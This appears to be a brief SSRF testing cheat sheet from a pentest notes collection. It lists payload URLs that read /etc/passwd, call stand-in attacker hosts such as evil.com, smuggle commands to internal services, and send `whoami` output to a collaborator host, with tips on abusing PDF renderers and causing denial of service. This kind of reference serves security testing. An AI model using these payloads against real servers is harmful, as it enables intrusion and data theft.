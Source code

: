 ```bash
file:///etc/passwd
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
ssrf.php?url=sftp://evil.com:11111/
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
# Gopher://
Fortunately, you can use Gopherus[<https://github.com/tarunkant/Gopherus>] to create payloads for several services. Additionally, remote-method-guesser[<https://github.com/qtc-de/remote-method-guesser>] can be used to create gopher payloads for Java RMI services
```

# Other Test Cases

```bash
# SSRF via Referrer header
<https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-referrer-header>
# SSRF via SNI data from certificate  --> <https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate>
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlf
# Wget File Upload 
<https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick>
# SSRF with Command Injection
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
# PDFs Rendering
If the web page is automatically creating a PDF with some information you have provided, you can insert some JS that will be executed by the PDF creator itself (the server) while creating the PDF and you will be able to abuse a SSRF. Find more information here. <https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf>
# From SSRF to DoS
Create several sessions and try to download heavy files exploiting the SSRF from the sessions.
# SSRf PHP Functions
```

# Resources 
[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
[https://highon.coffee/blog/ssrf-cheat-sheet/](https://highon.coffee/blog/ssrf-cheat-sheet/)
[URL Format Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)
[SSRF vulnerabilities and where to find them - Detectify Labs](https://labs.detectify.com/2022/09/23/ssrf-vulns-and-where-to-find-them/?fbclid=IwAR0xC3ymb4ufRUGRDOZWr7lleeatiJj_vH8dod9-84jKt0PN1z7evtHFccA)
### Youtube
* https://www.youtube.com/watch?v=U0bPPw6uPgY&t=1s
* https://www.youtube.com/watch?v=324cZic6asE
* https://www.youtube.com/watch?v=o-tL9ULF0KI
* https://www.youtube.com/watch?v=324cZic6asE&t=751s
* https://youtu.be/m4BxIf9PUx0
* https://youtu.be/apzJiaQ6a3k
* [A New Era of SSRF](https://www.youtube.com/watch?v=R9pJ2YCXoJQ) by [Orange Tsai](https://blog.orange.tw/)
